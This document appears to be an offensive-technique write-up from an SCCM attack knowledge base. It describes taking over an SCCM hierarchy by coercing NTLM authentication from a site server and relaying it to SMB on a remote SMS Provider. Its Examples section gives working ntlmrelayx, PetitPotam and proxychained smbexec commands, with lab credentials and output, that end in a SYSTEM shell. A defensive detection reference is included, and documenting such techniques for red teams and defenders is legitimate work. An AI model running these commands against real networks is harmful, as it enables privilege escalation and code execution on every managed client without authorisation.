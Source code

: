 # TAKEOVER-6
## Description
Hierarchy takeover via NTLM coercion and relay to SMB on remote SMS Provider


## MITRE ATT&CK TTPs
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-6.1: Coerce primary site server
    - TAKEOVER-6.2: Coerce passive site server
- Connectivity from the coercion target to SMB (TCP/445) on the relay server
- Coercion target settings:
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
    - Domain computer account is not in `Protected Users`
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target

### Relay
- Connectivity from the relay server to SMB (TCP/445) on the relay target
- Relay target settings:
    - `RequireSecuritySignature` = `0` or not present
    - `RestrictReceivingNTLMTraffic` = `0` or not present
    - Coercion target is local admin (to access RPC/admin shares)
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target


## Summary

The SMS Provider is a SCCM site server role installed by default on the site server when configuring a primary site or central administration site. The role can optionally be installed on additional SCCM site systems for high availability configurations.  The SMS Provider is a Windows Management Instrumentation (WMI) provider that performs as an intermediary for accessing and modifying data stored in the site database. An attacker who is able to successfully coerce NTLM authentication from a site server can escalate to "Full Administrator" by elevating to "NT\AUTHORITY SYSTEM" on the SMS Provider.


## Impact

This technique may allow an attacker to relay a site server machine account to a remote SMS Provider and elevate their privileges to "Full Administrator" for the SCCM Hierarchy. If successful, this technique enables an attacker to execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on.

## Defensive IDs

- [DETECT-4: Monitor SMS Admins group membership](../../../defense-techniques/DETECT/DETECT-4/detect-4_description.md)

## Subtechniques

## Examples

1. Use `SCCMHunter` to  profile SCCM infrastructure.

```

[02:00:25 PM] INFO     [+] Finished profiling all discovered computers.                                   
[02:00:25 PM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                       | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                       +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                       | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                       +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                       | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                       +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
```
2. On the attacker relay server, start `ntlmrelayx`, targeting the SMB service remote SMS Provider identified in the previous step.

```
└─# ntlmrelayx.py -t smb://10.10.100.12 -socks -smb2support
Impacket v0.12.0.dev1+20240130.154745.97007e84 - Copyright 2023 Fortra

[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in relay mode to single host
[*] SOCKS proxy started. Listening on 127.0.0.1:1080
[*] HTTPS Socks Plugin loaded..
[*] HTTP Socks Plugin loaded..
[*] MSSQL Socks Plugin loaded..
[*] SMTP Socks Plugin loaded..
[*] SMB Socks Plugin loaded..
[*] IMAPS Socks Plugin loaded..
[*] IMAP Socks Plugin loaded..
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
 * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
 * Debug mode: off
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666
```

3. From the attacker host, coerce NTLM authentication from the site server targeting the relay server's IP address:

```
┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
└─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP> 

Trying pipe lsarpc
[-] Connecting to ncacn_np:passive.internal.lab[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

```

After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the SMB service on the SMS provider and the authenticated session is held open

```
[*] Servers started, waiting for connections
Type help for list of commands
ntlmrelayx> [*] SMBD-Thread-9 (process_request_thread): Received connection from 10.10.100.9, attacking target smb://10.10.100.12
[*] Authenticating against smb://10.10.100.12 as LAB/SCCM$ SUCCEED
[*] SOCKS: Adding LAB/SCCM$@10.10.100.12(445) to active SOCKS connection. Enjoy
[*] SMBD-Thread-10 (process_request_thread): Connection from 10.10.100.9 controlled, but there are no more targets left!
[*] SOCKS: Proxying client session for LAB/SCCM$@10.10.100.12(445)
socks
Protocol  Target        Username   AdminStatus  Port
--------  ------------  ---------  -----------  ----
SMB       10.10.100.12  LAB/SCCM$  TRUE         445
ntlmrelayx>
```


 4. Proxy `smbexec.py` in the context of the site server through the authenticated session to establish interactive access on the target host as NT\AUTHORITY SYSTEM

 ```


└─# proxychains smbexec.py LAB/SCCM\$@10.10.100.12 -codec 437 -no-pass
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.12.0.dev1+20240130.154745.97007e84 - Copyright 2023 Fortra
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.100.12:445  ...  OK
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>wmic /namespace:\\root\sms\site_lab path SMS_Admin get AdminID,LogonName
 ■AdminID   LogonName
16777217  LAB\Administrator
16777220  LAB\lowpriv

C:\Windows\system32>
 ```

## References

- Microsoft, Plan for the SMS Provider, https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-sms-provider
